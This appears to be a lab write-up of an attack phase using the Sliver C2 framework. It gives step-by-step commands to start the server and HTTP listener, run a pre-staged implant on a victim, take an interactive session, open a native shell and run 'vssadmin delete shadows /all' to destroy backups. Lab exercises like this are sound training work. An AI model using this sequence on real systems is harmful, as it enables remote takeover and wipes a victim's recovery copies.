  Attack

With the environment prepared and access to the victim machine confirmed, I proceeded to launch the attack phase using the Sliver C2 framework. The implant used in this phase was created during a previous lab and is already staged on the victim.


 Launch the Sliver server
```bash
sliver-server
```
[Launch Sliver](./screenshots/Launch%20sliver.png)
 
 Run HTTP listner
```bash
http
```
 On the victim machine execute the implant
```powershell
./NEW_SHAKEDOWN (#You'll have to navigate to directory, or specify path)
```

 Return to the attacker machine and check for an incoming session
```bash
sessions
```
 Interact with the live session
```bash
 use <session_id>
```
[Session Interaction](./screenshots/interact%20with%20session.png)

 Drop to system native command prompt 
```bash
shell(#When Prompted 'are you an adult?' type Y) 
```
[Shell](./screenshots/shell.png)

 Verify active sysytem shell
```bash
whoami
```
 Run command to simulate volime Shadow Copy deletion
```bash
vssadmin delete shadows /all
```
[Volume Deletion Attempt](./screenshots/Volume%20deletion.png)
